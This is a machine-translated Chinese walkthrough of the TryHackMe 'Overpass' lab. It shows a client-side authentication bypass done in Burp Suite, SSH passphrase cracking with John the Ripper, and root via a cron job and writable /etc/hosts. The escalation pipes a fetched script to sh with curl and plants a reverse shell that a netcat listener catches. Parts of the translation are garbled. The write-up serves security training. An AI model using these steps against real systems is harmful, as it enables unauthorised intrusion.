# 这个密码管理器安全吗？

> 原文：<https://infosecwriteups.com/is-this-password-manager-safe-fd8886a78afd?source=collection_archive---------4----------------------->

## [TryHackMe 报道](https://medium.com/@vadimpolovnikov)

## TryHackMe trans over machine 演练，包含 Burp Suite、JavaScript、开膛手 John 和 LinPEAS。

从 popmech.ru 检索

## [摘要]

女士们，先生们，大家好！以下是对您在渗透测试过程中将会遇到的情况以及您将会学到的东西的简要描述:

*   使用 Burp Suite 的客户端 JavaScript 利用
*   用开膛手约翰破解密码
*   LinPEAS 目标计算机枚举
*   由于目标服务器的安全配置错误而导致的权限提升

## [扫描]

首先，我们需要进行一些基本的扫描。我相信你在扫描方面有自己的偏好和程序，所以我们不要在这个问题上纠缠太久。

**Nmap** :



据我所知，端口 80、8080 或 443 是打开的，首先进入队列的扫描工具是 *Nikto* 和 *GoBuster* (剧透——Nikto 没有显示出与 Nmap 有任何不同)

**GoBuster** :

`**gobuster dir -u http://ip-addr -w /usr/share/wordlists/dirb/common.txt**`



现在，我们对目标 web 应用程序有了更多的了解。让我们进入下一个阶段——枚举。

## [列举]

我绕过认证闯入/admin 页面的一个最重要的方面是使用 Burp Suite 的 ***用户导向的蜘蛛搜索*** 。

> 有时，自动爬行可能会导致整个应用程序崩溃，因此，用激活的 Burp Suite 作为代理来映射 web 应用程序实际上可能看起来是更复杂和可控的技术。

为了继续进行用户指导的蜘蛛搜索，请遵循以下说明:

1.  打开打嗝套件。
2.  关闭拦截。
3.  浏览到网站，直到它出现在站点地图中(目标选项卡)
4.  右键单击 URL，然后单击“添加到范围”

它应该是这样的:



当您访问 admin 的登录页面时， *login.js* 脚本会出现在站点地图上。仔细检查并尝试识别潜在的漏洞。

发现什么了吗？这一块呢:



如果您研究登录页面的 HTML 源代码，并发现两者之间有任何关联，您可以通过这段 JavaScript 代码确定身份验证发生在客户端。

每次您提交不正确的凭证时，服务器都以消息“不正确的凭证”作为响应，该消息被写入代码中的***status 0 rcookie***变量。在凭证正确的情况下，服务器用 cookie 进行响应。



在下一行中，***status 0 rcookie***值与字符串“不正确的凭证”进行比较，如果匹配，密码框将被清除，登录状态将等于该字符串。结果 cookie 未设置，不允许我们进入。

但是，如果我们通过简单地将“不正确的凭证”删除到其他东西来改变服务器在返回到我们的机器的途中的响应，那会怎么样呢…让我们试一试吧！

**首先**，在登录页面输入随机的用户名和密码，在服务器的响应中把“不正确的凭证”改成你喜欢的任何东西。该值将由您的浏览器设置为 cookie。

**第二次**，再次提交用户名和密码，拦截请求。

原始请求:



已编辑的请求:



原始请求是提交无效凭据的 POST 方法。每次服务器看到它们，入口就关闭。编辑后的请求是一个 GET 方法，它指定了目标(/admin page)和不同于“无效凭据”的 cookies。

如何改变请求方法？只需右键单击原始请求，然后选择“更改请求方法”。

服务器的响应会将我们的请求重定向到管理页面。



## [获得访问权限]

我猜你已经尝试过使用 SSH 访问机器了。我打赌你得到了同样的结果:



什么？密码短语？没什么大不了的。我们有开膛手约翰，或者更准确地说— **ssh2john.py** 。这是用于从密码短语中提取可破解哈希的 python 脚本。让我们看看我们能得到什么:



从这一点来看，我们可以使用普通的开膛手约翰来破解这个哈希(注意开头的*$ 1 $*—MD5 哈希)。只需使用以下命令:

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

我认为依靠一个拥有密码 ***james13*** 的密码管理器并不能保护你免受坏人的攻击，james。

让我们再次尝试进入目标。



现在好多了！我们进去了。

## [权限提升]

当你接近目标时，这是一种非常奇妙的感觉！现在，是特权升级的时候了。最好的开始是环顾四周，找到任何吸引人的东西。

Jame 的主目录呢？尽管事实上用户的旗帜是坐在那里… Ooops！还有 ***todo.txt*** ，肯定能讲点有趣的。

> 我鼓励您仔细阅读待办事项列表中的每一点，并找到进一步开发的线索。这不仅仅是特权升级的线索。看看你能做什么。

在进行 PE 之前，我通常会运行 ***sudo -l*** 命令，查找设置了 SUID 位的文件(***find/-perm 4000 2>/dev/null***)。另一个很好的选择是运行 [*LinPEAS*](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) 脚本，它将为我们做枚举！之后我们需要做的就是识别潜在的 PE 向量，并对其采取行动。

1.  在您的 ***linpeas.sh*** 脚本所在的 localhost 目录下运行 *SimpleHTTPServer* 模块—***python-m simple http server 80***
2.  在受害者端，使用 curl 来检索脚本并运行它***curl-X GET***[***http://IP-addr/linpeas . sh***](http://ip-addr/linpeas.sh)***| sh***

我知道产量很大。但是分析它给你真正的知识和经验。

在花了足够的时间研究输出之后，我希望您仔细看看两件事情。**首先是**，我们有一个对 *crontab* 文件的读取权限。里面有一条线…

这一行告诉我们，系统以 root 权限定期执行位于*overlands . thm*网站上的 bash 脚本。你可能注意到了 *buildscript.sh* 是开发者建议从/downloads 页面下载的“构建脚本”。

**第二个**，你有没有注意到 ***/etc/hosts*** 出现在“*我拥有的有趣的可写文件……”*类别下，这意味着我们可以更改该文件的内容。

你明白我的意思了吗？没错。我们可以将分配给 overpass.thm 条目的 IP 地址改为我们自己的，这样服务器就可以从我们的机器上检索 buildscript.sh 脚本。该脚本的内容将完全取决于你。



现在，在您的机器上复制原始脚本位置的目录结构，并用相同的文件名创建 bash reverse shell。



启动 Python 的 SimpleHTTPServer，在端口 6666 上启动 NetCat 监听器，等待您的机器捕获到 shell。



Tada！恭喜你！挑战解决了。

感谢你和我一起参加这个 TryHackMe 天桥演练，我希望能在下一次看到你。黑客快乐！

如果你想看看我的其他文章和评论，点击**的链接**(评论的第一行，就在标题上方)或者选择下面的一些。

 [## 你邻居的音乐很烂？救援飞机来了！

### 有趣而简单的 Wi-Fi 认证攻击将您的邻居踢出网络。

medium.com](https://medium.com/bugbountywriteup/your-neighbours-music-sucks-aircrack-ng-for-the-rescue-a5124a2e2734)  [## 嗨，乔治！你想要回你的壳吗？

### 使用 Metasploit、Msfvenom、Exploit-DB、PowerShell 和 RCE 的 HackPark 教育演练。

medium.com](https://medium.com/bugbountywriteup/hi-george-do-you-want-your-shell-back-9e373b67bcd1)  [## Windows PrivEsc 或者如何破解 TryHackMe 钢山机。

### Metasploit、Exploit-DB、PowerShell 等等。

medium.com](https://medium.com/bugbountywriteup/windows-privesc-or-how-to-crack-the-tryhackme-steel-mountain-machine-fdd7dc19ada3)